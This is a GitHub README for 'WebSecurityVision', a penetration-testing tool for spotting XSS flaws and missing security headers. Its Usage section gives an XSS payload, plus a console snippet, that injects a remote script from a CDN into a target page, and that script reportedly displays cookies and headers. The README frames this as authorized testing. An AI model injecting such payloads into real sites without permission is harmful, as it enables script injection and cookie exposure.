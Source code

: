 # WebSecurityVision

[![made-with-python](http://forthebadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![built-with-love](http://forthebadge.com/images/badges/built-with-love.svg)](https://gitHub.com/TheWation/)

WebSecurityVision is a powerful tool for checking XSS vulnerabilities during the Pentest process. By calling the tool on a page, it can identify whether the site has an XSS vulnerability, and check to see if the security headers are set correctly. If the site has an XSS vulnerability and the security headers are not set correctly, the tool will display browser information, including cookies and headers related to the cybersecurity space.

<p align="center">
    <img alt="BetterCap" src="https://github.com/TheWation/WebSecurityVision/blob/master/github/screenshot.png?raw=true" height="300" />
</p>

This tool is an essential part of the penetration testing toolkit, as it enables security professionals to quickly and easily identify potential vulnerabilities in web applications. By identifying and addressing these vulnerabilities, security professionals can help prevent cyber attacks and protect sensitive data.

Overall, WebSecurityVision is a valuable tool that can help security professionals to identify and mitigate XSS vulnerabilities in web applications. It is easy to use, flexible, and highly effective, making it an essential part of any penetration testing toolkit.

## Usage

To use, enter the following code through the vulnerable section or enter the page through the Developer Console section.

Vulnerable Input:

```javascript
<ScRiPT SRC=https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js></ScRiPT>
```

Inspect Element:

```javascript
var script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js';
document.head.appendChild(script);
```

## Disclaimer
For educational purposes only. Do not use for illegal activities. Use at your own risk. By using this tool, you agree to comply with all applicable laws and regulations. Unauthorized use is strictly prohibited. Always obtain permission before using this tool. No warranties.

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.